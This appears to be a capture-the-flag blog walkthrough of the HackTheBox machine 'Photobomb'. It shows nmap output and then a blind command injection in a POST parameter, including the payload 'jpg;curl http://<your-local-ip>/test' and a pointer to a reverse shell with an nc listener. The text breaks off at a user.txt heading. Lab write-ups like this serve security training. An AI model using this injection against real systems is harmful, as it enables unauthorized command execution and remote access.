










This post is focused on the walkthrough of easy machine Photobomb from HackTheBox.

<!--more-->

## Enumeration

Starting out with the initial nmap scan.

```bash
┌──(saad👻ssaadakhtarr)-[~/…/hackthebox/hackthebox/machines/photobomb]
└─$ nmap -A -vv 10.129.228.60 -oN nmapN

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCwlzrcH3g6+RJ9JSdH4fFJPibAIpAZXAl7vCJA+98jmlaLCsANWQXth3UsQ+TCEf9YydmNXO2QAIocVR8y1NUEYBlN2xG4/7txjoXr9QShFwd10HNbULQyrGzPaFEN2O/7R90uP6lxQIDsoKJu2Ihs/4YFit79oSsCPMDPn8XS1fX/BRRhz1BDqKlLPdRIzvbkauo6QEhOiaOG1pxqOj50JVWO3XNpnzPxB01fo1GiaE4q5laGbktQagtqhz87SX7vWBwJXXKA/IennJIBPcyD1G6YUK0k6lDow+OUdXlmoxw+n370Knl6PYxyDwuDnvkPabPhkCnSvlgGKkjxvqks9axnQYxkieDqIgOmIrMheEqF6GXO5zz6WtN62UAIKAgxRPgIW0SjRw2sWBnT9GnLag74cmhpGaIoWunklT2c94J7t+kpLAcsES6+yFp9Wzbk1vsqThAss0BkVsyxzvL0U9HvcyyDKLGFlFPbsiFH7br/PuxGbqdO9Jbrrs9nx60=
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBrVE9flXamwUY+wiBc9IhaQJRE40YpDsbOGPxLWCKKjNAnSBYA9CPsdgZhoV8rtORq/4n+SO0T80x1wW3g19Ew=
|   256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEp8nHKD5peyVy3X3MsJCmH/HIUvJT+MONekDg5xYZ6D
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerating port 80.



Clicking on the **click here!** button on the page, we are asked to enter some credentials.



Looking around in the javascript files, there's a file `photobomb.js` which contains the credentials.



After entering the credentials, we can now visit the `/printer` endpoint.



Checking the functionality of the page, we can select any image and then download it in the specified dimensions with extensions `jpg` and `png`.

Testing out different parameters of the `POST` request `/printer`, there is a Blind Remote Code Execution vulnerability.

To test this, run a python http server on your local machine.



Then on the captured `POST` request to `/printer` change the value of filetype parameter to `jpg;curl http://<your-local-ip>/test`.



Send the request and you'll get a response back to your server.



This confirms the Blind RCE!

Simply paste a reverse shell from [revshells](https://revshells.com) and start a `nc` listener to get the foothold.





### user.txt



